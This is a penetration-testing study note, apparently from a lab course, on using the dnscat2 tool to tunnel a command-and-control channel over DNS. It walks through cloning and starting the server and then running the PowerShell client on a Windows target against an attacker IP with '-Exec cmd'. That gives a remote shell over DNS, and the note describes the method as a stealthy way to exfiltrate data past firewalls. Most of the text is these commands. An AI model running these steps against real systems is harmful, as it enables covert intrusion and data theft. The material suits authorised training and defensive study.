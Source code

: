 - [Dnscat2](https://github.com/iagox86/dnscat2) is a tunneling tool that uses DNS protocol to send data between two hosts. It uses an encrypted `Command-&-Control` (`C&C` or `C2`) channel and sends data inside TXT records within the DNS protocol.
- However, with dnscat2, **the address resolution is requested from an external server. When a local DNS server tries to resolve an address, data is exfiltrated and sent over the network instead of a legitimate DNS request.**
- Dnscat2 can be an **extremely stealthy approach to exfiltrate data while evading firewall detections which strip the HTTPS connections** and sniff the traffic

# Setting Up & Using dnscat2
---
## Cloning dnscat2 and Setting Up the Server
- `git clone https://github.com/iagox86/dnscat2.git`
- `cd dnscat2/server/`
- `sudo gem install bundler`
- `sudo bundle install`
## Starting the dnscat2 server
- `sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache`
- After running the server, it will provide us the secret key, which we will have to provide to our dnscat2 client on the Windows host so that it can authenticate and encrypt the data that is sent to our external dnscat2 server.

- We can use the client with the **dnscat2 project or use [dnscat2-powershell](https://github.com/lukebaggett/dnscat2-powershell), a dnscat2 compatible PowerShell-based** client that we can run from Windows targets to establish a tunnel with our dnscat2 server.

## Cloning dnscat2-powershell to the Attack Host
- `git clone https://github.com/lukebaggett/dnscat2-powershell.git`
- Once the dnscat2.ps1 file is on the target we can import it and run associated cmd-lets:
- `Import-Module .\dnscat2.ps1`
- `Start-Dnscat2 -DNSserver 10.10.16.34 -Domain inlanefreight.local -PreSharedSecret b97bd3bfc2c6bb3271bd40fa3260f9b7 -Exec cmd `
	- DNSServer -> Our IP
- We must use the pre-shared secret (`-PreSharedSecret`) generated on the server to ensure our session is established and encrypted.

## Listing dnscat2 Options
- `?`
- We can use dnscat2 to interact with sessions and move further in a target environment on engagements
- Interacting with the Established Session:
	- `window -i 1`